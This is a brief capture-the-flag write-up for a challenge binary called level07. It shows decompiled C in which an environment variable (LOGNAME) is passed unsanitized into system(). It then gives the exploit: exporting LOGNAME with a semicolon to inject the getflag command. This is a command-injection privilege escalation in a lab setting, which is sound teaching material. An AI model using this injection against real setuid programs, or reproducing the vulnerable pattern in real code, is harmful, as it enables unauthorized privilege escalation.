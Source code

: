 1. ls in home

executable called level07

2. scp to decompile binary

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;
  
  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);
  iVar2 = system(local_1c);
  return iVar2;
}

the exploit is here : 

  pcVar1 = getenv("LOGNAME");
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);

3. Change the LOGNAME var to inject getflag

<< export LOGNAME="hello;getflag"

4. execute the binary 

